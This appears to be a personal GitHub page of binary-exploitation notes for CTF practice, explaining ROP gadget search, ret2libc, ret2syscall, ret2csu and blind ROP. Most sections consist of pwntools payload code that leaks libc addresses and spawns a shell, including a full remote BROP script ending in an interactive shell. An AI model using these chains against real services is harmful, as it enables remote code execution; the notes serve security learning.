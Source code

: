
### in progress


# ROP
# how to find Gadgets (Ropper)
read the docs!
https://github.com/sashs/Ropper

Ropper is a tool that can display information about binary files in different file formats and can search for gadgets to build rop chains for different architectures (x86/X86_64, ARM/ARM64, MIPS/MIPS64, PowerPC/PowerPC64, SPARC64).

most usefull commands imo.

`(ropper) file vuln_binary` loads the specified binary into cache and analyze it than cleans up double gadgets. \
`(ropper) search /1/ pop r??` /1/ = search for gadgets with max 1 instruction + ret  \
? means non specific char so this will search for `pop rax`&`pop rdi`&`pop rsi` and so on \
`(ropper) semantic eax==1 !ebx` searches for a gadget that set eax to 1 and does not clobber ebx

# how to find Strings in an ELF	
searching manually
`strings -t x -a /path/to/binary | grep "string you searching"`

in a pwntools script
```
binary = ELF('/path/to/binary')
string = next(libc.search(b'string you searching'))
```

# how to pivote the Stack
in progress
# ret2techniques
	
<details>
    <summary>ret2libc (dynamically linked ELF)</summary>
        <div>

# ret2libc (dynamically linked ELF)
to use ret2libc we need to know two things
	
1. the exact libc version the ELF uses
2. the base addr of libc in the process
		

to find the exact version of libc we can leak some GOT entrys which stores pointers to the functions in libc. 
(we also need this for finding the base of libc in the process)

since we have the ELF file we can do this with ease as the GOT and PLT sections are known to us (asuming PIE is off)
```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to the addr of puts@GOT
payload += p64(puts@GOT)		#addr puts@GOT
payload += p64(puts@PLT)		#call puts@PLT(puts@GOT)
```

this payload will print the libc addr of puts() in the current process.
puts_leak = `leaked addr here`

ok now ne know the exact addr of puts() in libc but we still dont know which libc version is used.
we will use a libc database like https://libc.blukat.me/ to find the exact version
libc.blukat will find the libc based of the last 3 nibbles of the leaked addr since these will always be the same 
		
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/libc_blukat.png">

usually you need to leak more than one libc function addr or the addr of a known string such as "/bin/sh" to find the exact libc version.

ok we now know the exact libc version now we can download the libc and calculate the offset from puts() to the base addr of libc in the process
use `vmmap` to find the libc base

```
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000402000 0x0000000000403000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000403000 0x0000000000404000 0x0000000000002000 r-- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000404000 0x0000000000405000 0x0000000000003000 rw- /home/bex/Desktop/PWN Guide/Pwn Guide/src/ret2csu
0x0000000000405000 0x0000000000426000 0x0000000000000000 rw- [heap]
0x00007ffff7dbc000 0x00007ffff7de1000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7de1000 0x00007ffff7f59000 0x0000000000025000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7f59000 0x00007ffff7fa3000 0x000000000019d000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa3000 0x00007ffff7fa4000 0x00000000001e7000 --- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa4000 0x00007ffff7fa7000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7fa7000 0x00007ffff7faa000 0x00000000001ea000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007ffff7faa000 0x00007ffff7fb0000 0x0000000000000000 rw- 
0x00007ffff7fc9000 0x00007ffff7fcd000 0x0000000000000000 r-- [vvar]
0x00007ffff7fcd000 0x00007ffff7fcf000 0x0000000000000000 r-x [vdso]
0x00007ffff7fcf000 0x00007ffff7fd0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7fd0000 0x00007ffff7ff3000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ff3000 0x00007ffff7ffb000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```

know_libc_base = `libc base here`		

offset = puts_leak - known_libc_base 		known_libc_base as it will change next time the ELF file is run (ASLR)
libc_base = puts_leak - offset

ok we now know the libc version and the exact libc_base inside the current process.
now we can use libc functions such as system("/bin/sh") we can setup the args and than simply call it from libc

1. setup the argument for system(pointer_binsh) 
2. call the libc function system()

```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rdi)			#set first arg to /bin/sh pointer
payload += p64(pointer_binsh)		#addr of /bin/sh\x00 in mem
payload += p64(system)			#call the libc system function
```

</div>
</details>

<details>
    <summary>ret2system (statically linked ELF)</summary>
        <div>


# ret2system (statically linked ELF)
`syscall(rax,rdi,rsi,rdx)`	
we want to call `execve(pointer_binsh,0,0)` to spawn a shell

so we need to setup a `syscall(execve(pointer_binsh,0,0))`
		
1. find the syscall number for execve
2. find a gadget that can write to a pointer like `mov [rdi],rdx`
3. write b'/bin/sh\x00' to a writable addr.
4. setup the registers and than syscall

syscall numbers `https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86_64-64_bit	`
we know the syscall number is 0x3b so we want to call `syscall(0x3b,pointer_binsh,0,0)`
we need a gadget that can write to a pointer to write `/bin/sh\x00` string somewhere
we can find such a gadget by using `ropper`

```
ropper /1/ mov [r??],r??
```		
i choose `mov [rdi],rdx` ... somethink like `mov [rax],rdx` would worked too.
since we have to set rdi = pointer_binsh and `mov [rdi],rdx` directly writes to rdi we saved some gadgets.
when using `mov [rax],rdx` we have to `mov rdi,rax` afterwards.


```
payload = b''
payload += b'A'*0x10			#padding
payload += p64(pop_rax)			#set rax to 0x3b
payload += p64(0x3b)
payload += p64(pop_rdi)			#set rdi to a .bss addr .bss is usually `rw-`
payload += p64(.bss)			#addr where we want to write to
payload += p64(pop_rdx)			#set rdx to `/bin/sh\x00`
payload += b`/bin/sh\x00`		#be carefull when you set this allways keep the 0x8 byte pad in mind e.g. when you want to call execve with `/bin/cat\x00`
payload += p64(write_gadget)		#writes the content of rdx = `/bin/sh\x00` into the addr rdi = `.bss` points to
payload += p64(pop_rsi)			#set rsi to 0
payload += p64(0x00)
payload += p64(pop_rdx)			#set rdx to 0
payload += p64(0x00)
payload += p64(syscall)				
```


</div>
</details>

<details>
    <summary>ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)</summary>
        <div>
		
# ret2csu(no sufficient gadgets to set rdi,rsi,rdx can be found)

the `__libc_csu_init` function is responsible to initialize libc files.
in this function there are some interesting gadgets we can use.

first gadget let us controll some registers with pop

POPGADGET:
his will let us controllrbx,rbp,r12,r13,r14,r15
```
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
	        __libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```

CALLGADGET:
this will let us controll rdx,rsi and edi but we need to meet some conditions 
```         
__libc_csu_init+64	MOV        RDX,R14
__libc_csu_init+67 	MOV        RSI,R13
__libc_csu_init+70 	MOV        EDI,R12D
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
__libc_csu_init+86	ADD        RSP,0x8
__libc_csu_init+90	POP        RBX
__libc_csu_init+91	POP        RBP
__libc_csu_init+92	POP        R12
__libc_csu_init+94 	POP        R13
__libc_csu_init+96	POP        R14
__libc_csu_init+98 	POP        R15
__libc_csu_init+100 	RET
```


there ase some constrains in the caller gadget 
1.
we want to pass the JNE and dont take it.
```
rbx = 0x00 set to 0 since it will be incremented later
rbp = set to 1 so when compared to the incremented rbx 
```

```
__libc_csu_init+77	ADD        RBX,0x1
__libc_csu_init+81	CMP        RBP,RBX
__libc_csu_init+84	JNE        __libc_csu_init+64
       	 	
```
2.
we want to set r15 = to a valide function pointer rbx will be 0x00
```
__libc_csu_init+73	CALL       qword ptr [R15 + RBX*0x8]
```


```
putsgot = elf.got['puts']          
putsplt = elf.plt['puts']
pop_rdi = 0x00000000004011f3
pop_rsi_r15 = 0x00000000004011f1
ret = 0x4004e6

def ret2csu(call,rdi,rsi,rdx):
    payload = p64(0x4011ea)         # first call popper gadget

    payload += p64(0x00)            # pop rbx - set to 0 since it will be incremented later
    payload += p64(0x01)            # pop rbp - set to 1 so when compared to the incremented rbx 
    payload += p64(0x400000)       # pop r12 #edi only 4 bytes controll
    payload += p64(rsi)            # pop r13 #rsi
    payload += p64(rdx)            # pop r14 #rdx
    payload += p64(putsgot)            # pop r15 

    payload += p64(0x4011d0)        # 2nd call caller gadget

        #__libc_csu_init+64     MOV        RDX,R14
        #__libc_csu_init+67     MOV        RSI,R13
        #__libc_csu_init+70     MOV        EDI,R12D

    payload += p64(0x00)            # add rsp,0x8 padding cause __libc_csu_init+86  ADD RSP,0x8 


        #__libc_csu_init+90     POP        RBX
        #__libc_csu_init+91     POP        RBP
        #__libc_csu_init+92     POP        R12
        #__libc_csu_init+94     POP        R13
        #__libc_csu_init+96     POP        R14
        #__libc_csu_init+98     POP        R15
        #__libc_csu_init+100    RET

    payload += p64(0x00)            # rbx
    payload += p64(0x00)            # rbp
    payload += p64(0x00)            # r12
    payload += p64(0x00)            # r13
    payload += p64(0x00)            # r14
    payload += p64(0x00)            # r15

        #__libc_csu_init+100    RET

    payload += p64(pop_rdi)        
    payload += p64(rdi)             # update rdi with correct unconstrained content
    payload += p64(pop_rsi_r15)     
    payload += p64(rsi)             # update rsi with correct unconstrained content
    payload += p64(0x00)

        #we now have this registers under controll rdi,rsi,rdx,rbx,rbp,r12,r13,r14,r15

    payload += p64(call)            # actual wanted function call
    return payload

    rop = b'A'*16
    rop += ret2csu(putsplt, 0x7ffff7f735aa, 0x00, 0x00) # call(rdi,rsi,rdx)

```

For de-randomizing libc, we can use &GOT_TABLE, coupled with some read(), write() or send(), recv() (ie: usually available in CTF challenges)

<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/ret2csu_gadgets.png">
		
</div>
</details>

# ret2dl_resolve
in progress


<details>
    <summary>BROP (dont have the binary // PIE off)</summary>
        <div>


# Blind Return Oriented Programming

Steps of Exploitation:

Puts/Printf() when fd is 0,1,2 stdin,stdout,stderror
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find puts@plt
4. leak the binary

write() when fd is not 0,1,2 stdin,stdout,stderror (when we connect to the binary throu a socket)
1. find a loop-gadget
2. find brop-gadget (the ret2csu popper-gadget // rdi & rsi controll)
3. find strcmp@PLT (strcmp sets rdx to the number of matching chars) ### erklären wie strcmp funktioniert
4. find write@PLT (let us write to any fd)
5. leak the binary

### find loop-gadget
the example binary prints `Are you blind my friend?\n` and than asks us for input
so we know that when we find the right addr there should be a `Are you blind my friend?\n` printed back to us and we should be able to input again


```
def find_loop_gadget(i):
    
    r = remote(ip, port,timeout=1)
    
    addr_guess = i + 0x400200				#we know PIE is off // 0x400000 cause x64 binarys start here + 0x200 for headers
		
    payload = b'A'*88					#pad
    payload += p64(addr_guess)				#rip

    r.readuntil(b'Are you blind my friend?\n')		#read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)


    try:
        check = r.recvline()					#trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:		#if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr
            return int(addr_guess)				
        else:
            print(check)					#if we recv something that is not 'Are you blind my friend?\n' we print to check what it was
            print(r.recvline())						#than try to read more that should throw an EOF error if not inspect further
            r.close()
    except:
        print(sys.exc_info()[0])				#prints the error
        print(i)						#prints the iterator
        r.close()


for i in range(0x2000): 					
    loop = find_loop_gadget(i)					
    if loop:							
        print(f'found loop_gadget @ {hex(loop)}')
        break							#remove this break if you want to find more potential loop addr.
```



### find brop-gadget

ok we now have a loop-gadget now we need to find a brop-gadget
6 pops in a row are pretty uncommon so its not hard to indentify it.


```
def find_brop_gadget(i):


    r = remote(ip, port,timeout=1)

    addr_guess = i + 0x400200  					#we know PIE is off // 0x400000 cause x64 binarys start here + 0x200 for headers

    payload = b'A'*88						#pad
    payload += p64(addr_guess)					#rip 
    payload += p64(0x00)					#setup stack
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(0x00)
    payload += p64(loop)					#loop back to main

    r.recvuntil(b'Are you blind my friend?\n')			#read the first (intendet) "Are you blind my friend?\n" 
    r.send(payload)

    try:
        check = r.recvline()					#trys to read a line if cant read a line EOF error will be thrown
        if b'Are you blind my friend?\n' in check:		#if we get back the 'Are you blind my friend?\n' we know we are on a potential right addr since our 6 pops goes throu
           							#2nd check if we are on the right gadget this time we want a crash
                p = remote(ip,port,timeout=1)

                payload = b'A'*88				#pad
                payload += p64(addr_guess)			#rip
                payload += p64(0x00)				#setup stack
                payload += p64(0x00)	
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)
                payload += p64(0x00)         			# one extra 0x00 to crash it ret to 0x00 is allways a crash  
		payload += p64(loop)				# if it still prints 'Are you blind my friend?\n' its the wrong guess addr
		
		p.recvuntil(b'Are you blind my friend?\n')	#read the first (intendet) "Are you blind my friend?\n" 
                p.send(payload)					
                
		try:
               	    check2 = r.recvline()			#try to read a line if we can read a line we are on the wrong addr guess #we should crash here
                    if check2: 					#if we can recv something addr guess are wrong
                        print('not passed check2')
                        p.close()
                        r.close()

                except:						#we want a crash so if we crash were good
                    r.close()
                    p.close()
                    return addr_guess

        else:							#if we can recv something on the initial check but its not "Are you blind my friend?\n" or we hang
                r.close()					#close connection
    except:							#if we crash during first payload
        print(sys.exc_info()[0])
        r.close()


for i in range(0x2000):
    brop = find_brop_gadget(i)
    if brop:
        print(f'found brop_gadget @ {hex(brop)}')
        break
    
pop_rdi = int(brop) + 0x9
pop_rsi_r15 = int(brop) + 0x7
















```


def find_puts_gadget(i):


    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()



    addr_guess = i*0x10 + 0x400200

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(0x400000) #should print out 'ELF' at this addr
    payload += p64(addr_guess)


    s(payload)
    ru('Are you blind my friend?\n')


    try:
        check = rl()
        if b'ELF' in check:
            r.close()
            return addr_guess
        else:
            print(check)
    except:
        print(sys.exc_info()[0])
        print(i)
        r.close()

def find_strcmp(i):
    
    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()

    test = i*0x10 + 0x400200

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(0x400000)
    payload += p64(pop_rsi_r15)
    payload += p64(0x400000)
    payload += p64(0x400000)
    payload += p64(test)
    payload += p64(loop)
    ru('Are you blind my friend?\n')
    s(payload)
    

    try:
        check = rl()
        if b'Are you blind my friend?\n' in check:
            r.close()
            print('\n1st check passed good:good')
            
            print(f'2nd check for {hex(test)} good:bad')
            p = remote(ip,port,timeout=1)

            payload = b'A'*88
            payload += p64(pop_rdi)
            payload += p64(0x400000)
            payload += p64(pop_rsi_r15)
            payload += p64(0x0)
            payload += p64(0x0)
            payload += p64(test)
            payload += p64(loop)        
            p.readuntil('Are you blind my friend?\n')
            p.send(payload)
                
            try:
                check2 = rl()

                if check2: 
                    print('not passed check2')
                    p.close()
                else:
                    print('not passed check2')
                    p.close()

            except:
                r.close()
                p.close()
                print(f'3nd check for {hex(test)} bad:good')
                p = remote(ip,port,timeout=1)

                payload = b'A'*88
                payload += p64(pop_rdi)
                payload += p64(0x0)
                payload += p64(pop_rsi_r15)
                payload += p64(0x400000)
                payload += p64(0x0)
                payload += p64(test)
                payload += p64(loop)         
                p.readuntil('Are you blind my friend?\n')
                p.send(payload)

                try:
                    check3 = rl()

                    if check3: 
                        print('not passed check3')
                        p.close()
                    else:
                        print('not passed check3')
                        p.close()

                except:
                    p.close()
                    print(f'4rd check for {hex(test)} bad:bad')
                    p = remote(ip,port,timeout=1)

                    payload = b'A'*88
                    payload += p64(pop_rdi)
                    payload += p64(0x0)
                    payload += p64(pop_rsi_r15)
                    payload += p64(0x0)
                    payload += p64(0x0)
                    payload += p64(test)
                    payload += p64(loop)         
                    p.readuntil('Are you blind my friend?\n')
                    p.send(payload)
                    try:
                        check4 = rl()

                        if check4: 
                            print('not passed check4')
                            p.close()

                        else:
                            print('not passed check4')
                            p.close()


                    except:
                        p.close()
                        print(sys.exc_info()[0])
                        return test

        else:
            r.close()
    except:
        print(sys.exc_info()[0])
        print(hex(test))
        r.close()

def leak(i):


    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()


    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(i)
    payload += p64(puts)


    s(payload)
    rl()
    leak = unpack(rl()[:-1],'all')
    return leak

def leak_binary(i,j):


    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()

    x = i + j

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(x)
    payload += p64(puts)


    s(payload)


    rl()
    try:
        check = rl()
        if check:
            if check.hex()[:-2] == '':
                file.append(b'\x00')
                r.close()
                return int(offset) + 1

            else:
                file.append(check[:-1])
                last_len = int(len(check)-1)
                r.close()
                return int(offset) + int(last_len)


                
            
        else:
            r.close()
    except:
        print(sys.exc_info()[0])
        r.close()
        return int(offset + 1)


def pwn():

    #context.log_level = 'debug'

    r = remote(ip, port,timeout=1)
    

    rb = lambda x :r.recvb(x)
    rl = lambda : r.recvline()
    ru = lambda x :r.recvuntil(x)
    rlub = lambda x :r.recvuntilb(x)
    s = lambda x :r.send(x)
    sl = lambda x : r.sendline(x)
    sla = lambda x,y : r.sendlineafter(x,y)
    inter = lambda : r.interactive()



    pop_rdi = pop_rdi = int(brop) + 0x9
    ret = int(brop) + 10
    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(putsgot)
    payload += p64(puts+0x10)
    payload += p64(loop)
 

    ru('Are you blind my friend?\n')
    s(payload)


    leak = unpack(rl()[:-1],'all')
    print(hex(leak))
    libc.address = leak - libc.symbols['puts']

    print(hex(libc.address))

    ru('Are you blind my friend?\n')

    binsh = next(libc.search(b'/bin/sh\x00'))
    execve = libc.symbols['execve']
    system = libc.symbols['system']

    payload = b'A'*88
    payload += p64(pop_rdi)
    payload += p64(binsh)
    payload += p64(system)

    s(payload)



    inter()


if __name__ == '__main__':

    
    print('now searching for brop_gadget')




    print('now searching for puts')                 #maybe printf will be a false true it works for most things but care when something crashes it could be this

    for i in range(0x50):
        puts = find_puts_gadget(i)
        if puts:
            print(f'found puts @ {hex(puts)}')
            break
            

    print('now searching for strcmp')
    for i in range(0x50):
            strcmp = find_strcmp(i)
            if strcmp:
                print(f'found strcmp @ {hex(strcmp)}')
                break


    puts_check = hex(libc.symbols['puts'])[-2::]

    for i in range(0x10):
        check = leak(0x601000+i*8)                   #found 0x601060 using 0x601000 cause page start allways scan full ranges
        print(f'{hex(0x601000+i*8)} : {hex(check)}')
        if hex(check)[12:] == puts_check:
            putsgot = (i*8+0x601000)
            print(f'puts_got @ {hex(putsgot)}')
            break

    
    # file = []
    # last_len = 0
    # offset = 0

    # for i in range(0xb00):
    #     offset = leak_binary(offset,0x400000)
    #     print(offset)
    #     print(f'{hex(i)}')


    # string1 = b''.join(file)

    # with open('binary_dump', 'wb') as out:
    #     out.write(string1)
    #     out.close()

    pwn()          #pops a shell

</div>
</details>

# SROP
in progress
<img src="https://github.com/Bex32/Pwn-Notes/blob/main/src/sigret_frame.png">
